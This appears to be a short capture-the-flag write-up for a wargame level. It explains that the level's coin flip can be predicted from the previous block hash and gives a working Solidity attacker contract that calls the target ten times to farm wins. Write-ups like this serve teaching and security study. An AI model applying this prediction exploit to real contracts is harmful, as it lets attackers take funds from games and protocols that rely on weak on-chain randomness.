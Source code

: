 The coin flip is fully deterministic:

```solidity
uint256 blockValue = uint256(blockhash(block.number - 1));
uint256 coinFlip = blockValue / FACTOR;
bool side = coinFlip == 1 ? true : false;
```

It can be emulated and exploited:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Coin {
    function flip(bool _guess) external returns (bool);
}

contract Flop {

  address TARGET = 0xef1E0052066782af98d87c1a1c3A6f625c969c4A;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {}

  function guess() public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
    return Coin(TARGET).flip(side);
  }
}
```

Since the wins are not tracked by user, this contract can farm the wins instead of the player's address.

It just needs to be deployed and called 10 times to solve the challenge.
